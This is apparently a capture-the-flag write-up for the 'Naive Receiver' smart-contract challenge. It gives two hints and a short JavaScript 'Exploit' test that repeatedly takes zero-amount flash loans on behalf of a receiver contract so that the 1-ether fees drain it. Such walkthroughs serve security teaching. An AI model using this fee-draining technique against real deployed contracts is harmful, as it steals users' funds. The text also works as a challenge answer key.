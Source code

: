 # 2 - Naive Receiver

### Hints

<details>

<summary>Hint One</summary>

Carefully walk through the logic of calling a flash loan on behalf of the receiver contract.

</details>

<details>

<summary>Hint Two</summary>

How does the receive contract afford these expensive transaction fees?

</details>

### Scripted Solution

```javascript
it('Exploit', async function () {
  // Borrow 0 tokens to receiver (charging a 1 ether fee each time)
  for (let i = 0; i < 10; i++) {
    await this.pool.flashLoan(this.receiver.address, 0)
  }
})
```
